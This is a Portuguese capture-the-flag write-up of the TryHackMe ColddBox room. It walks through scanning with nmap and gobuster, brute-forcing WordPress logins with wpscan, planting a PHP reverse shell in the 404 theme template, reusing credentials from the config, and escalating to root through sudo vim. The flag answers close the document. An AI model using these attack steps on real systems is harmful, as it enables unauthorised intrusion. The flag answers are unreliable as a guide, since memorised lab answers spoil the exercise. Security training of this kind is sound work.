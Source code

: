 # Relatório da sala [C0lddBOX](https://tryhackme.com/r/room/colddboxeasy)

## IP alvo: 10.10.109.242
```
# Nmap 7.93 scan initiated Tue Aug 20 20:51:43 2024 as: nmap -T4 -sV -sC -o nmap_colddbox.txt 10.10.109.242
Nmap scan report for 10.10.109.242
Host is up (0.23s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Sabendo as portas abertas, realizei uma enumeração de diretórios utilizando a ferramenta gobuster
```
/.html                (Status: 403) [Size: 278]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.109.242/]
/.php                 (Status: 403) [Size: 278]
/wp-content           (Status: 301) [Size: 319] [--> http://10.10.109.242/wp-content/]
/wp-login.php         (Status: 200) [Size: 2547]
/license.txt          (Status: 200) [Size: 19930]
/wp-includes          (Status: 301) [Size: 320] [--> http://10.10.109.242/wp-includes/]
/readme.html          (Status: 200) [Size: 7173]
/wp-trackback.php     (Status: 200) [Size: 135]
/wp-admin             (Status: 301) [Size: 317] [--> http://10.10.109.242/wp-admin/]
/hidden               (Status: 301) [Size: 315] [--> http://10.10.109.242/hidden/]
/xmlrpc.php           (Status: 200) [Size: 42]
```
Após descobrir o diretório /hidden, pode-se notar que existem 3 usuários no qual podem ter contas vinculadas no wp
```wpscan --url http://10.10.248.96 -U user.txt -P /usr/share/wordlists/rockyou.txt```Realizando um brute force no wp com esses nomes, se descobriu a senha do usuário
**[SUCCESS] - C0ldd / 9876543210**
Acessando o WP, podemos ir em "Themes" e mudar o "404 template" por um reverse shell em php, após alterar o template, iniciei um ```"nc -lvnp 5555"``` e executei o reverse shell ```http://10.10.109.242/wp-content/themes/twentyfifteen/404.php```, realizando isso, obtive acesso ao shell pela minha máquina

Comando utilizado para deixar o shell melhor visível = **python3 -c 'import pty;pty.spawn("/bin/bash")'**. Ao tentar acessar o diretório **/home/c0ldd/user.txt**, uma mensagem de acesso negado apareceu, sendo necessário procurar uma outra maneira de acessar esse documento

Buscando por maneiras, entrei no diretório **/var/www/html/wp-setting.php** no qual apresentava um usuário:**c0ldd** e senha:**cybersecurity** acessando com o comando su c0ldd e a senha: cybersecurity, feito! estamos execuando como usuário c0ldd agora

**cat /home/c0ldd/user.txt** = 1* flag descoberta

A missão agora era virar root, com isso, dei um **sudo -l** e vi que o diretório **/usr/bin/vim** estava disponível para modificar criando um ```:!/bin/bash``` ele elevou os previlégios e me deixou como root da máquina, **cat /root/root.txt**, VAMO! descoberta a última flag do desafio.

<details>⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
<summary>Respostas do desafio</summary>
  
1.  **flag{RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==}**
2.  **flag{wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=}**

</details>
